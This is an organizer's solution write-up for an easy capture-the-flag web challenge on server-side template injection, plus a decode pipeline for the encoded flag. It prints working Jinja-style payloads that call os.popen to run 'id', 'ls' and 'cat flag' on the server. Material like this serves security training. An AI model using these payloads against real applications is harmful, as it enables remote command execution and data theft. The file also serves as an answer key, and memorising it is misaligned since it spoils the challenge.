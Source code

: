 >>writeup/solution.md — Organizer-only writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy
 
---

### This writeup describes the intended attack flow and the decode steps players will need to perform. Keep this file private.

## Attack flow (what the player will do inside the app)

## 1.In the search box the player first submits:
```{{7*7}}```
+ This will render and show 49.

## 2.Next they try to gather system information using SSTI:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

+ This will show something like:
```uid=0(root) gid=0(root) groups=0(root)```

## 3.Then they list files in the current directory:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}```

+ This will show entries including flag (and other files).

## 4.Finally they read the flag file with:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

+ The application will return the encoded blob (exact output below):

```
%31%30%30%31%30%31%30%31%30%31%30%31%31%30%30%30%31%31%30%31%30%31%31%30%31%30%31%31%31%30%31%31%30%31%31%30%30%31%31%30%31%30%31%61%31%31%30%30%31%31%30%30%30%31%30%30%30%31%30%30%31%31%31%30%31%31%31%31%31%30%30%30%31%31%30%31%31%31%31%31%31%31%30%31%30%30%30%31%31%31%31%31%30%30%31%30%31%31%30%30%31%31%31%30%30%31%31%31%31%30%30%31%30%31%31%30%31%31%31%31%31%31%31%30%31%31%30%66%31%30%31%61%31%30%30%31%31%31%30%30%31%30%30%30%31%30%30%31%30%30%30%30%30%31%30%31%30%30%30%31%30%30%31%30%30%30%31%31%30%30%30%30%30%31%31%31%31%31%31%31%30%31%30%31%30%31%30%30%30%31%30%31%30%31%31%31%31%31%30%31%31%31%30%31%30%31%30%31%31%31%30%30%31%30%30%64%31%30%31%31%31%30%31%31%30%31%31%30%31%31%30%31%30%30%31%31%31%31%30%31%31%30%31%30%30%65%31%30%31%31%30%31%31%30%31%30%31%31%30%30%30%30%30%30%30%31%30%31%30%31%31%31%30%30%30%30%62%31%30%31%30%31%30%31%30%31%30%30%31%31%30%30%31%64%31%31%64
```
---

### Decode pipeline (organizer helper)

To retrieve the final CTF_flag{...}, apply the following transforms in order to the blob returned by cat flag:

+ 1.URL-decode the percent-encoded string (convert %31 → 1, %30 → 0, %61 → a, etc.).

+ 2.Binary : interpret the result as a sequence of ASCII 0/1 characters (group into 8-bit chunks) and convert each byte to its numeric value.

+ 3.Hex ASCII : interpret the bytes from step 2 as ASCII hex characters (e.g. 43 54 46 5f ...) and convert the hex to raw bytes.

+ 4.Base64-decode the resulting bytes to obtain the final CTF_flag{...} text.

![Step 1](1.png)
